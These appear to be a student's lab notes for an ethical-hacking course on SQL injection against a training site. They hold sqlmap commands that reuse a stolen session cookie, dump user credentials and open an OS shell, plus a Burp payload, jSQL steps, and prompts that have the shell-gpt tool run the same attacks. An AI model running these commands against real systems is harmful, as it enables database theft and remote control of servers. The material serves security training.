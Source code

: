  2025-08-06 21:46

Status:

Tags:

# SQL injection
Structured Query Language (SQL) is a textual language used by a database server. SQL commands used to perform operations on the database include ``INSERT, SELECT, UPDATE, and DELETE``. These commands are used to manipulate data in the database server.

SQL injection is a technique used to take advantage of un-sanitized input vulnerabilities to pass SQL commands through a web application for execution by a backend database
-  SQL injection is a basic attack used to either gain unauthorized access to a database or retrieve information directly from the database 
- It is a flaw in web applications and not a database or web server issue 
- [ ] do theory 
# Lab 1: Perform SQL Injection Attacks
## Task 1: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

-  open parrot 
1. visit ``http://www.moviescope.com`` 
	- login as ``sam:test``
2. click view profile 
	- inspect the page -> console 
	- type ``document.cookie  `` 
	- copy cookie 
3. run SQLmap
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="A[cookie value that you copied in Step#7]" --dbs ``
	- type y for **Do you want to skip test payloads**
4. you need to choose a database and use sqlmap to retrieve the tables in the database
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables``
5.  you need to retrieve the table content of the column **User_Login**.
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump ``
	- this will give you users list and their passwords 
6. to get shell 
		- `` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell ``  type y
	- to get host info 
		- ``hostname ``
	- to view a list of tasks that are currently running on the target system.
		- ``TASKLIST ``
	- to view what else command you perform 
		- ``help ``

# Lab 2: Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

## Task 1: Detect SQL Injection Vulnerabilities using OWASP ZAP

- open windows server 2019 and search zap 
1. start **OWASP ZA**
2. select **Automated Scan**
3. enter http://www.moviescope.com
4. under alert see SQL injection 
5. and MS SQL 
	- done  


# Lab 3: Perform SQL Injection using AI
1. `` **sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases"** ``
2. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the tables pertaining to moviescope database"``
3. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and retrieve User_Login table contents from moviescope database"```
## Exploit the web application (page_id)
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap. 
3. Now open the burp and check the input parameters and intercept on then type some as`` “1 OR ANY TEXT”`` you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4.  ``sqlmap -r <txt file from burpsuite> --dbs`` 
5.    `` sqlmap -r <txt file from burpsuite> -D <database name> --tables``
6. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns``
7. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all ``
8. ``then login and do the url parameter change page_id=1 to page_id=84 ``

- [ ]  make notes for using AI sql  
      
- [ ]  perform sql injection 
- [ ] 16
- [ ] 13
      \


## sql injection without cookie 
1. manually search for url that contains ``? and =``  or use zap 
2. then type jsql in terminal
3. paste the url and click the arrow mark 
4. choose the asked table and dumped the data 
5. select column name right click on the table name 
6. and click load   

### References
